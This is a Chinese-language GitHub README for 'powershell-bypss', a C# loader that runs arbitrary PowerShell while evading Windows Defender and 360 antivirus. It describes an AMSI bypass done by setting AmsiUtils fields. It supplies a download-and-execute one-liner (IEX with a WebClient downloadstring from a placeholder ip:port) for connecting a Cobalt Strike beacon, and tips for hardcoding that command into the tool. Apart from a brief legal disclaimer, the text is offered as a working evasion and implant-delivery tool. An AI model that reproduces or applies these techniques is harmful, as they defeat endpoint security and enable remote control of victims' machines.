 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

AMSI绕过+Automation执行powershell命令。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控，同时绕过AMSI的检测。由于patch绕过AMSI的方法会被360查杀，因此这里使用了设置System.Management.Automation.AmsiUtils的方法来绕过。

这里用+加号替换了命令中空格，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要```Csharp.exe IEX+((new-object+net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**想单纯来上线cs的师傅可以把IEX开头的powershell命令写定在程序里的myPipeLine.Commands.AddScript参数中**

![32430eaf1b8ae7db520dd85e5cc82bf](https://user-images.githubusercontent.com/48757788/198879143-1caaf6d9-2ed9-4894-9233-10ff7aa7ad39.jpg)

![d559a936be1592a0bcbbaff24e88dc8](https://user-images.githubusercontent.com/48757788/198879156-82253c57-ff50-4b21-be0d-d71253db032b.jpg)





